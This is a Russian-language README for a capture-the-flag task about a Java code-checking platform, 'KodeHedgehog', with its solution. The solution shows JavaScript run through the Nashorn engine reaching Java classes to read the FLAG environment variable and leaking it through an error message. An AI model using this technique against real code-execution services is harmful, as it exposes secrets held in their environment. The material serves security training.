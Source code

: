 # JS KodeHedgehog
## Legend
**RU**

Собрались как-то два программиста, и решили сделать обучающую платформу, которая бы могла проверять код и выдавать ведрикт проверки. 
Назвали они её ~~CodeHedgehog~~ KodeHedgehog. 

Всё хорошо, да только программисты не посещали пары по кибербезопасности.
Сможете ли вы взломать их?

## Description
Дано REST приложение, написанное на java.

Спецификацию API можно посмотреть по url: 
`http://localhost:8080/swagger`

Задача: получить флаг `FLAG`, который находится в переменных окружения.

## Install
Выполните команду `docker-compose up`

## Solution
Для выполнения скрипта на js используется библиотека [nashorn](https://www.baeldung.com/java-nashorn).
По умолчанию она позволяет обращаться к java объектам.
```js
var flag = java.lang.System.getenv("FLAG")
```
Чтобы вывести флаг, воспользуемся тем, что метод возвращает сообщение ошибки
```js
throw flag
```
Получаем ответ
```json
{
    "verdict": "ERROR",
    "testNumber": 1,
    "error": "{FLAG} in <eval> at line number 2 at column number 0"
}
```
